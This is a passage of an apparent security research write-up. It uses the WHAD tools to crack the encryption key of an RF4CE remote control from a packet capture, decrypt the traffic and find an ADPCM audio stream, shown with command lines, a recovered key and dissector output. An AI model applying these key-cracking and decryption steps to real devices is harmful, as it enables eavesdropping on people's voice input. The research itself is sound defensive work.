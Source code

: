 ```
[...]
```

Based on this capture, we should be able to retrieve the key by applying the derivation scheme on these seeds. We can easily run this attack using *WHAD*, thanks to the *wanalyze* CLI tool:
```
$ wplay --flush remotecontrol.pcap | wanalyze 
[✓] key_cracking → completed
  - key:  17f2dd2d8f1c1d463e74d08f5c94d5db
```

Once the key has been retrieved, we can decrypt the traffic using the option *-d* (decrypt) and the option *-k* (key):
```
$ wplay --flush remotecontrol.pcap -d -k 17f2dd2d8f1c1d463e74d08f5c94d5db 
```

# Extracting the audio stream

Once decrypted, we can see that the capture includes an audio stream, encoded using an ADPCM codec with a sample rate of 16,000 Hz and a resolution of 16 bits. We can identify it thanks to the [RF4CE scapy dissector implemented in WHAD](https://github.com/whad-team/whad-client/blob/main/whad/scapy/layers/rf4ce.py), or by reading the source code of the [Telink RF4CE SDK](https://wiki.telink-semi.cn/tools_and_sdk/RF4CE/RF4CE_SDK.zip) after downloading it on the [Telink website](https://wiki.telink-semi.cn/).
```
[...]
[ decrypted=False, timestamp=1770098, channel=15, rssi=-57, is_fcs_valid=True, lqi=144 ]
<Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=True fcf_ackreq=True fcf_pending=False fcf_security=False fcf_frametype=Data fcf_srcaddrmode=Short fcf_framever=0 fcf_destaddrmode=Short fcf_reserved_2=0 seqnum=197 fcs=0x722f |<Dot15d4Data  dest_panid=0x269a dest_addr=0x3f15 src_addr=0x7ca0 |<RF4CE_Hdr  channel_identifier=0 reserved=1 protocol_version=1 security_enabled=enabled frame_type=vendor mic=0x337343d2 frame_counter=1925689 |<RF4CE_Vendor_Hdr  profile_id=0xc0 vendor_id=4417 |<RF4CE_Vendor_MSO_Hdr  command_code=audio |<RF4CE_Vendor_MSO_Audio  sequence_number=1 audio_cmd_id=start_req length=9 |<RF4CE_Vendor_MSO_Audio_Start_Request  sample_rate=16000 resolution_bits=16 mic_channel_number=1 codec_type=ADPCM packet_size=84 interval=10 channel_number=3 duration=10 |>>>>>>>

[ decrypted=False, timestamp=1770152, channel=15, rssi=-19, is_fcs_valid=True, lqi=255 ]
<Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=False fcf_ackreq=False fcf_pending=False fcf_security=False fcf_frametype=Ack fcf_srcaddrmode=None fcf_framever=0 fcf_destaddrmode=None fcf_reserved_2=0 seqnum=197 fcs=0x1924 |>

[ decrypted=False, timestamp=1771033, channel=15, rssi=-20, is_fcs_valid=True, lqi=255 ]
<Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=False fcf_ackreq=True fcf_pending=False fcf_security=False fcf_frametype=Data fcf_srcaddrmode=Short fcf_framever=0 fcf_destaddrmode=Long fcf_reserved_2=0 seqnum=38 fcs=0x59d3 |<Dot15d4Data  dest_panid=0xffff dest_addr=c4:19:d1:ae:35:0d:70:02 src_panid=0x269a src_addr=0x3f15 |<RF4CE_Hdr  channel_identifier=0 reserved=1 protocol_version=1 security_enabled=enabled frame_type=vendor mic=0x74896efa frame_counter=9576 |<RF4CE_Vendor_Hdr  profile_id=0xc0 vendor_id=4417 |<RF4CE_Vendor_MSO_Hdr  command_code=audio |<RF4CE_Vendor_MSO_Audio  sequence_number=10 audio_cmd_id=start_rsp length=1 |<RF4CE_Vendor_MSO_Audio_Start_Response  best_channel=15 |>>>>>>>

[ decrypted=False, timestamp=1771087, channel=15, rssi=-56, is_fcs_valid=True, lqi=148 ]
<Dot15d4FCS  fcf_reserved_1=0 fcf_panidcompress=False fcf_ackreq=False fcf_pending=False fcf_security=False fcf_frametype=Ack fcf_srcaddrmode=None fcf_framever=0 fcf_destaddrmode=None fcf_reserved_2=0 seqnum=38 fcs=0x8cf1 |>

[ decrypted=False, timestamp=1791985, channel=15, rssi=-54, is_fcs_valid=True, lqi=148 ]
```